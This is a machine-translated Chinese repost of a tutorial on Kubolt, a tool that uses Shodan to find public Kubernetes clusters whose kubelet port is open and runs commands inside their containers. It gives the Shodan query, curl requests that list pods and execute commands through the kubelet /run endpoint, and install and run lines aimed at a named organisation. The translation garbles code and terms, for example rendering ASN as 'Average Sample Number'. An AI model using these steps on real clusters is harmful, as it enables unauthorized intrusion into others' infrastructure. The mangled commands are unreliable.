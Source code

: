 # Kubolt:用于扫描公共 Kubernetes 集群的实用程序

> 原文：<https://kalilinuxtutorials.com/kubolt/>

[![Kubolt : Utility For Scanning Public Kubernetes Clusters](img//caf8bbbd39129cd095070f3a4fc4c384.png "Kubolt : Utility For Scanning Public Kubernetes Clusters")](https://1.bp.blogspot.com/-jzbb69WUPDw/XPUetZbW5BI/AAAAAAAAAnI/D2155adTeR0jlszXPj14n7SxlU60GYyAgCEwYBhgL/s1600/github-scale.gif)

Kubolt 是一个简单的工具，用于扫描公共的未授权的 kubernetes 集群，并在容器内运行命令。有时，kubelet 端口 10250 对未经授权的访问是开放的，这使得使用来自 [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) 的 getrun 函数在容器内运行命令成为可能:

**// getRun 处理在容器内部运行命令的请求。
func(s * Server)get run(request * restful。请求，响应*restful。response){
params:= getExecRequestParams(request)
pod，ok:= s . host . getpodbyname(params . pod namespace，params.podName)
如果！ok {
响应。WriteError(http。状态未找到。Errorf("pod 不存在")
返回
}**

**也可阅读-[wafw 00 f:识别&指纹网络应用防火墙(WAF)产品保护网站](https://kalilinuxtutorials.com/wafw00f-2/)**

好吧，让我们问问我们的朋友肖丹

基本的查询是

> **ssl:真实端口:10250 404**

**Kubelet** 默认使用带 SSL 的端口 10250，404 是不带 URL 路径的 HTTP 响应。

Kubolt 通过 API 向 Shodan 请求 IP 地址列表，并保存它们以供其他操作使用

首先，让我们向 Kubelet 请求运行 pod 并过滤响应不包含`Unauthorized`而包含`container`的主机，这样我们就可以在其中运行命令。

**curl-k https://IP-from-shod an:10250/running pods/**

无论如何，如果您发现主机当时没有任何正在运行的 pods，请保留它，以备下次 pods 可能启动时使用

您可以列出这些请求中的所有可用窗格:

**curl-k https://IP-from-Shodan:10250/pods/
#或
curl http://IP-from-Shodan:10255/pods/**

接下来 **kubolt** 解析响应并生成一个新请求，如下所示:

**curl-XPOST-k https://IP-from-shod an:10250/run/<名称空间> / < PodName > / <容器名> -d "cmd= <命令运行> "**

您可以使用 Shodan 过滤器更准确地锁定公司，例如:

*   平均取样数（Average Sample Number 的缩写）
*   （同 organic）有机
*   国家
*   网

**安装**

**mkdir 输出
pip install-r requirements . txt**

**运行**

**python kubolt . py–query " ASN:123123 org:' ACME Corporation ' "
#或
python kubolt . py–query " org:' ACME Corporation ' country:UK "**

**庄丹**

**Kubolt** 使用 Shodan API 和[查询信用](https://help.shodan.io/the-basics/credit-types-explained)相应地，如果你运行没有查询过滤器的工具，那么你可能会解雇你所有的信用`.`

**免责声明**

作者提供的工具只能用于教育目的。作者不能对工具的误用负责。作者不对因使用该工具而造成的任何直接或间接损害负责。

[**Download**](https://github.com/averonesis/kubolt)